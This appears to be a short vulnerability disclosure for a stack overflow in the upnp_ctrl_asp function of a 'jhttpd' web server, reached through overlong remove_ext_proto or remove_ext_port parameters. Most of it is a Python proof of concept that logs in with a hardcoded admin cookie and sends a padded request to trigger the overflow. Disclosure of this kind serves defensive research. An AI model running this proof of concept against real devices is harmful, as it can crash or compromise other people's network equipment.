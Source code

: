 <img width="1896" height="908" alt="image" src="https://github.com/user-attachments/assets/7e8826d5-1bb8-482c-a32b-692b6b4cc1cc" />
In the upnp_ctrl_asp function in the jhttpd program, there is a stack overflow vulnerability caused by the sprintf function, which allows an attacker to forge remove_ext_proto parameter or remove_ext_port parameter as an excessively long string, so as to splice to the stack variable when sprintf is spliced
poc:

```
import requests
url="http://172.26.25.103:7300/nat_base.asp?upnp_enable=1&upnp_mnp=0&upnp_waniface=0&exec_service=upnp-restart&_=1752864920837"
headers={"cookie":"wys_userid=admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632"}
response=requests.get(url=url,headers=headers)

url2="http://172.26.25.103:7300/upnp_ctrl.asp?remove_ext_proto=1&remove_ext_port=1"+"1"*0x1000
response2=requests.get(url=url2,headers=headers)
print(response2.text)
